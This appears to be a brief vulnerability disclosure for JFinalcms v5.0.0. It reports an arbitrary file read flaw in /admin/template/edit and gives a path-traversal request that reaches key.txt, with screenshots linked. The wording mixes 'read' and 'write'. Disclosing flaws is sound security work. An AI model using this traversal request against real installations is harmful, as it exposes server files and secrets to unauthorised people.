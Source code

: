 target:https://gitee.com/heyewei/JFinalcms

version:v5.0.0

JFinalcms v5.0.0 has an arbitrary file read vulnerability in /admin/template/edit

![1](https://github.com/bigbigbigbaby/cms/assets/41852125/40c115d5-1208-4b3c-ac9f-51d6eaa23975)


Modify the data packet and write it to the specified path

```
/admin/template/edit?fileName=../../../../../key.txt&directory=default
```

![2](https://github.com/bigbigbigbaby/cms/assets/41852125/64b7cae3-67ba-4c65-a619-a17af45f4be2)

